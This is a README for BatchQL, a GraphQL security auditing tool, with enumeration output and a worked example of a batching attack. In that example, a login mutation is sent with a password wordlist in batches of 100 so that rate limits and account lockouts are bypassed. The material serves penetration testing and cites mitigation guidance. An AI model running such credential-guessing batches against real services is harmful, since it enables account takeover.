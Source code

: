# BatchQL

BatchQL is a GraphQL security auditing script with a focus on performing batch GraphQL queries and mutations. This script is not complex, and we welcome improvements.

When exploring the problem space of GraphQL batching attacks, we found that there were a few blog posts on the internet, however no tool to perform GraphQL batching attacks.

GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

# Detections

This tool is capable of detecting the following:

- Introspection query support
- Schema suggestions detection
- Potential CSRF detection
- Query name based batching
- Query JSON list based batching

# Attacks

Currently, this tool only supports sending JSON list based queries for batching attacks. It supports scenarios where the variables are embedded in the query, or where they are provided in the JSON input.

# Usage

## Enumeration

```
❯ python batch.py -e http://re.local:5000/graphiql -p localhost:8080

Schema suggestions enabled. Use Clairvoyance to recover schema: https://github.com/nikitastupin/clairvoyance
CSRF GET based successful. Please confirm that this is a valid issue.
CSRF POST based successful. Please confirm that this is a valid issue.
Query name based batching: GraphQL batching is possible... preflight request was successful.
Query JSON list based batching: GraphQL batching is possible... preflight request was successful.
Most provide query, wordlist, and size to perform batching attack.
```

## Batching Attacks

1. Save a file that contains your GraphQL query i.e. `acc-login.txt`:

```
mutation emailLoginRemembered($loginInput: InputRememberedEmailLogin!) {
  emailLoginRemembered(loginInput: $loginInput) {
    authToken {
      accessToken
      __typename
    }
    userSessionResponse {
      userToken
      userIdentity {
        userId
        identityType
        verified
        onboardingStatus
        registrationReferralCode
        userReferralInfo {
          referralCode {
            code
            valid
            __typename
          }
          __typename
        }
        __typename
      }
      __typename
    }
    __typename
  }
  }
```

2. Run the following command to run a GraphQL batching attack:

```
❯ python batch.py --query acc-login.txt --wordlist passwords.txt -v '{"loginInput":{"email":"admin@shubs.io","password":"#VARIABLE#","rememberMe":false}}' --size 100 -e http://re.local:5000/graphiql -p localhost:8080
```

The above command does the following:

- Specifies a query from a local file `--query acc-login.txt`.
- Specifies a wordlist `--wordlist passwords.txt`
- Specifies the variable input with the replacement identifier `-v {"loginInput":{"email":"admin@example.com","password":"#VARIABLE#","rememberMe":false}}`
- Specifies the batch size `--size 100`
- Specifies the endpoint `-e http://re.local:5000/graphiql`
- Specifies a proxy `-p localhost:8080`

# References

- [Damn Vulnerable GraphQL Application](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application)
- [GraphQL Batching Attack - Wallarm](https://lab.wallarm.com/graphql-batching-attack/)
- [Mitigating Batching Attacks](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#mitigating-batching-attacks)
